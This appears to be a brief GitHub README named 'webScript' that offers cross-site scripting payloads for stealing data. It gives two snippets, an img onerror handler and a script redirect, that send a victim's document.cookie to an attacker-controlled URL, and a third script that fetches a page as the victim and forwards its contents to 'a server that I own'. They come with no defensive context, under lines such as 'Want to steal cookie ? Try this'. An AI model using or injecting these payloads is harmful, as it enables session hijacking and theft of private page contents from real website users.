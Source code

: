 # webScript

## Want to steal cookie ? 
Try this:
```js
<img src="" onerror="this.src='[URL]?cookie='+document.cookie;"></img>
```
```js
<script>document.location='[URL]?c='+document.cookie</script>
```

## Want to know how other see some page?
```js
<script>
fetch("[URL-PAGE TO BE STOLEN]")
.then((result) => { return result.text(); })
.then((content) => {
    fetch('[URL-SERVER THAT I OWN ]?c='+content)
    ; }); 
</script>
```

